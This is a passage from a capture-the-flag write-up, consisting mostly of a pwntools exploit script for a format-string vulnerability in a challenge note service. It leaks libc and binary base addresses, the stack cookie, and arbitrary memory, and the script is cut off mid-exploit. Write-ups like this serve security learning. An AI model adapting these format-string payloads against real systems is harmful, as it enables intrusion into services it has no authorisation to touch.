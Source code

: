 After all that work we get the flag.

```py
from pwn import *

HOST = 'amigo.hacking.center'
PORT = 1337

def menu():
    r.recvuntil(':> ')

def write_note(p):
    menu()
    r.send('1\n')
    r.recvuntil('Type in your note (max len: 64 characters): ')
    if p[-1:] not in '\x00\n\r':
        p += '\n'
    r.send(p)

def read_note():
    menu()
    r.send('2\n')
    ret = r.recvuntil('\n\n====================\n', timeout=1)
    ret = ret.split('====================\n')[1]
    ret = ret[:-2]
    
    return ret

def exec_fmt(p):
    write_note(p)
    return read_note()

def leak(addr):
    payload = "%15$s.AA"+p32(addr)
    resp = exec_fmt(payload)
    idx = resp.index('.AA')
    resp = resp[:idx]
    ret = resp + "\x00"

    return ret

r = remote(HOST, PORT)

libc_offset = 0x001B4CC0
libc_addr = int(exec_fmt('%10$p'), 16)
libc_base = libc_addr - libc_offset

main_bin_addr = int(exec_fmt('%2$p'), 16)
main_bin_offset = 0x5663b45d-0x56639000

main_base = main_bin_addr - main_bin_offset

read_addr = libc_base + 0xd6b40 # read offset

print 'libc base = ', hex(libc_base)

stack_cookie = int(exec_fmt('%29$p'), 16)


print "stack cookie = %08x" % (stack_cookie, )
print "main_base = %08x" % (main_base, )

main_base_magic = main_base + 0x41410000

```